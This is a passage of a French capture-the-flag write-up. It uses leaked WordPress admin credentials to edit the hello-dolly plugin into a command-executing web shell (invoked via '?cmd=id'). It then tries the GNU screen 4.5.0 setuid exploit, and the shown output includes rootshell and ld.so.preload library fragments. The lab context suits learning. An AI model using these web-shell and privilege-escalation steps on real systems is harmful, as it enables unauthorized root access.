 Dans la base de données Wordpress je trouve une table inhabituelle nommée `wp_cracked` et qui contient l'identifiant `fs0ft` / `fs0f@2020!@`.

Ce couple utilisateur / mot de passe permet de se connecter sur le Wordpress. L'utilisateur semble être administrateur puisqu'il est possible d'éditer les fichiers de thèmes.

J'ai fait le tour des différents thèmes sans trouver de fichiers modifiables (les permissions sur le système de fichier sont insufisantes). Finalement j'ai pu éditer un fichier du plugin `hello-dolly` (`hello-dolly/hello.php`) ce qui m'a permis d'obtenir ma RCE :

`/blog/wp-content/plugins/hello-dolly/hello.php?cmd=id`

## vim exploit.sh

LinPEAS repère rapidement un binaire setuid inhabituel :

`-rwsr-xr-x 1 root root 1.7M Nov 24  2019 /usr/bin/screen-4.5.0 (Unknown SUID binary)`

On est exactement sur le même scénario que pour le CTF [Nully Cybersecurity](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Nully%20Cybersecurity%20de%20VulnHub.md).

On s'empresse de récupérer l'exploit pour cette version de screen mais ça cafouille :

```shellsession
www-data@fsoft:/tmp$ ./screen_exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
collect2: fatal error: cannot find 'ld'
compilation terminated.
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
collect2: fatal error: cannot find 'ld'
compilation terminated.
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
No Sockets found in /run/screen/S-www-data.
```